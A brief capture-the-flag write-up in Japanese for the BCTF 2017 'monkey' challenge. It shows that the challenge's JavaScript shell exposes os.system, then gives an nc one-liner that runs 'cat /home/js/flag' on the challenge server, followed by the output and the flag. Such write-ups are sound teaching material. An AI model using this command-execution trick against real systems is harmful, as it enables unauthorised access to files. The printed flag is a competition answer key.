 ```yaml
---
layout: post
alias: "/blog/2017/04/22/bctf-2017-monkey/"
date: "2017-04-22T01:14:11+09:00"
title: "BCTF 2017: monkey"
tags: [ "ctf", "writeup", "bctf", "pwn", "javascript" ]
---
```


## solution

諸々のファイルが渡されるが、ぐぐると`os.system`があると分かるので終わり。

```
$ echo 'os.system("cat /home/js/flag")' | nc 202.112.51.248 2333
js> os.system("cat /home/js/flag")
bctf{319c1b47f786c7b99a757da74fd38408}
js> 0
```
